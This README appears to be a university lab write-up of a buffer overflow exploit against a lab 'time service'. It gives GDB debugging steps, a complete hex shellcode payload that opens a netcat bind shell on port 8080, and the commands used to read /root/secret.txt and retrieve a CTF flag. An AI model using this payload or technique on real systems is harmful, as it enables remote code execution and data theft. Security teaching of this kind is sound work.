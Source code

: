# Buffer Overflow Attack on Time Service

## Overview
This project demonstrates a buffer overflow attack on a time service running on a server. The task was part of a lab exercise aimed at understanding how buffer overflows can be exploited in a controlled environment. The primary objective was to obtain a secret file (`secret.txt`) located in the `/root/` directory of the server by exploiting a buffer overflow vulnerability in the service.

## Objectives
- **Exploit a Buffer Overflow**: Understand and exploit a buffer overflow vulnerability in the time service.
- **Obtain the Secret**: Retrieve the `secret.txt` file from the server's root directory.
- **Demonstrate Exploit**: Develop and execute a custom shellcode to achieve remote code execution on the server.

## Preparation
### Tools and Knowledge
- **Assembler (`nasm`)**: Used for writing the shellcode.
- **GNU Debugger (`gdb`)**: Helpful in identifying the return address and debugging the exploit.
- **Netcat (`nc`)**: Used for communication between the attacker and the server.
- **C/C++ Compiler**: For compiling custom payloads and shellcode.

## Laboratory Setup
1. **Connecting to Chuck**:
    - SSH into the attacker machine "Chuck" using the provided credentials.
    - Enumerate and bring up the network interface.
    - Ensure connectivity to the server "Time" by pinging the server and connecting to the time service on port `2222`.

    ```bash
    ssh userXY@chuck.informatik.tu-cottbus.de
    ifconfig -a
    sudo /usr/sbin/ifconfig ethXY up
    ping -I ethXY -c3 10.10.XY.12
    nc -u 10.10.XY.12 2222
    ```

## Task Description
### Goal
- Exploit the buffer overflow vulnerability in the `timeservice` running on the server.
- Obtain the `secret.txt` file located at `/root/`.

### Steps to Exploit

1. **Identify the Vulnerability**:
    - Analyzed the `timeservice.c` code and found that passing `strlen` with a NULL byte leads to a buffer overflow vulnerability.

2. **Debugging with GDB**:
    - Used GDB to debug the `timeservice` and locate the return address. The following steps were performed:
    
    ```bash
    make -B  # Generate the timeservice binary
    ./timeservice 10.10.10.11 2222
    netstat -anp | grep time  # Find the process ID for the timeservice
    gdb -p <timeservice_pid>  # Attach GDB to the timeservice process
    ```
    - Set breakpoints in the code and observed the memory layout to locate where the return address is stored:

    ```bash
    break 37
    break 48
    break 165
    set follow-fork-mode child
    c
    c
    c
    p &timebuf
    p &format
    x/xw 0xffffdbb0
    quit
    ```

3. **Write and Execute Shellcode**:
    - Created a custom shellcode to exploit the vulnerability. The shellcode was crafted to spawn a shell that could be accessed remotely:

    ```bash
    echo -ne "\x78\x78\x78\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x6a\x17\x58\xcd\x80\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x6a\x30\x66\x68\x30\x38\x68\x2d\x6c\x70\x38\x89\xe0\x52\x6a\x68\x68\x69\x6e\x2f\x73\x68\x2d\x65\x2f\x62\x89\xe1\x52\x51\x50\x53\x89\xe1\x6a\x0b\x58\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xcf\xb3\x04\x08" | nc -u 10.10.10.12 2222
    ```

4. **Connect to the Time Server**:
    - After injecting the shellcode, connected to the time server using Netcat:

    ```bash
    nc 10.10.10.12 8080
    ```

5. **Retrieve the Secret**:
    - Once connected to the shell on the server, navigated to the `/root/` directory and retrieved the `secret.txt` file:

    ```bash
    cat /root/secret.txt
    ```
    - The secret was successfully extracted:
    ```plaintext
    CTF-FdLSuJqpZEhVPW75vHyg3qxXu17DFFoQyqw+Xh6O
    ```

## Conclusion
This exercise successfully demonstrated a buffer overflow exploit in a controlled environment. By carefully analyzing the vulnerable service, writing custom shellcode, and debugging the service, it was possible to gain unauthorized access to the server and retrieve the secret file.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgments
This project was completed as part of a cybersecurity exercise in an educational setting.
